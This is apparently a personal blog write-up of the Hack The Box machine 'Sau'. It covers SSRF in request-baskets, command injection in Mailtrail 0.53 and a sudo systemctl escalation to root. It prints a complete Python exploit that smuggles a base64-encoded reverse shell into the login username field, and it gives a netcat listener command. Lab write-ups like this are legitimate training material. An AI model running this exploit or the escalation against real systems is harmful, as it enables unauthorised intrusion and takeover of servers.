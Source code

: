 ```yaml
---
layout: post
title: SAU
categories: [Hack The Box, Easy-HTB]
tags: [SSRF, RCE]
image: https://i.ibb.co/0nnBwRb/sau.png
---
```


Hello and welcome to my first writeup on Hack the box machines. We will be handling an easy machine named Sau. We will use real vulnerabilities that were discovered before and we will also make use of exploits that had been used before. Let's begin.

# Enumaration

First of all we are going to run a NMAP scan to scan for open ports.

![](https://i.ibb.co/bFPd1Sv/nmap.png) 

![](https://i.ibb.co/Z23FwTJ/report.png)

From the scan we can see that port 22 is open on which ssh runs. But since we have no credentials we would not be able to use this. We can then see that the port 80 has been filtered which would mean we cannot communicate with it from outside the network. Then port 55555 would definately catch our attention. From the report we can see that the port is accessible on our browser and it allows for the get option.

We can access this by `http://machine_ip:55555` which will lead us to a page with request baskets.

# Request-baskets SSRF

When we visit the page this is what we can see

![](https://i.ibb.co/CWbzyxx/55555.png) 

This is basically a page which creates request-baskets. What is interesting is we have a service and a version running. We can look this up and we see that we have a lurking vulnerability which is `Server Side Request Forgery`. This vulnerability exists due to some improper validation in a path and would ideally be leveraged to connect to any HTTP server on the network. 

To exploit this we need to create a basket and change some of the configurations on the basket.

![](https://i.ibb.co/p43QH7R/configuration.png)

First we need to set an URL where the requests will be forwarded to. We can use localhost and set the port to port `80`.

Secondly we need to set `insecure_tls` to true which will ideally bypass the certificate verification.
Next, we need to set `proxy response` to true which will send response of the forwarded server back to our client.

Lastly, setting `expand_path` set to true makes forward_url path expanded when original http request contains compound path.

From here we only need to visit the URL so as to trigger this vulnerability.

# Exploiting Mailtrail

So when we visit the URL we can see a page that looks like this

![](https://i.ibb.co/bKqqHK3/mailtrail.png)

We do not see much but we get a service running and its version. We can then look for the vulnerabilities associated with the service and version running.

We then can get a python exploit script which would exploit a command injection vulnerability. The exploit creates a reverse shell payload encoded in Base64 to bypass potential protections like WAF, IPS or IDS and delivers it to the target URL using a curl command
The payload is then executed on the target system, establishing a reverse shell connection back to the attacker's specified IP and port

The python script is as follows:
   
    #!/bin/python3

    import sys
    import os
    import base64

    # Arguments to be passed
    YOUR_IP = sys.argv[1]  # <your ip>
    YOUR_PORT = sys.argv[2]  # <your port>
    TARGET_URL = sys.argv[3]  # <target url>

    print("\n[+]Started MailTrail version 0.53 Exploit")

    # Fail-safe for arguments
    if len(sys.argv) != 4:
        print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
        sys.exit(-1)


    # Exploit the vulnerbility
    def exploit(my_ip, my_port, target_url):
    # Defining python3 reverse shell payload
        payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    # Encoding the payload with base64 encoding
        encoded_payload = base64.b64encode(payload.encode()).decode()
    # curl command that is to be executed on our system to exploit mailtrail
        command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    # Executing it
        os.system(command)


    print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
    try:
        exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
        print("\n[+] Successfully Exploited")
        print("\n[+] Check your Reverse Shell Listener")
    except:
        print("\n[!] An Error has occured. Try again!")


First we need to run a netcat listener on our machine, `nc -lnvp port`.

Next we need to execute the exploit example, `python3 exploit.py [ip] [port] [target_url]`.
From here we need to check at our listener for any connections. And we should be connected as a user.

![](https://i.ibb.co/kD3nP6H/user.png)

# Privilege Escalation

Next we should try to escalate our privileges to root. Well we can run `sudo -l` which would help us to know what commands we can run as `sudo`.

![](https://i.ibb.co/sv9GX12/privesc.png)

We see that we can run `systemctl status trail.sevice` as sudo. Then we can run `!sh` and press return.

![](https://i.ibb.co/Fz1H9zr/root.png)

We are root. We can then find our flags.

# Conclusion 
HTB machines are awesome. Happy hacking 